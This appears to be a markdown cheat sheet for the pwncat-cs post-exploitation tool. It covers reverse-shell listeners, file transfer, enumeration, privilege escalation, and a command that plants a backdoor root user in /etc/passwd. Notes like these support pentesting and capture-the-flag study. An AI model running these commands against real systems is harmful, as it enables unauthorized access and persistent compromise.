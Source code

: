 # Installation

`pip3 install pwncat-cs`

# Commands
- `-l` - listen
- `-p` on port
- `pwncat-cs -lp <PORT>` - Set up a listener
- `help`  - To view other commands for pwncat.
- `back` - We can use this to exit our local shell and use the reverse shell we've gotten (CTRL + D)
- `download` - We can use this to download files from the reverse shell to our local machine...(You need to be on the local shell)
- `upload` - You can upload a file from your remote machine to the reverse shell.

## Auto Enumeration using pwncat...

- We can use `search enum*` to check out the possible enumeration scripts.
- We can then run the script using `run <SCRIPT_NAME>`

## SSH login

`pwncat-cs ssh://user@IP`

## Running commands on the local machine

`local <COMMAND>`

## View current directory 

`lpwd`
## Change current directory

`lcd`

## Priv Esc...

`escalate list` - To see present ways to priv esc.
`escalate run` - Run an exploit.

## Adding another user with super privs if you are root...

`run implant.passwd backdoor_user=<username> backdoor_pass=<passsword>` - Add user in /etc/passwd

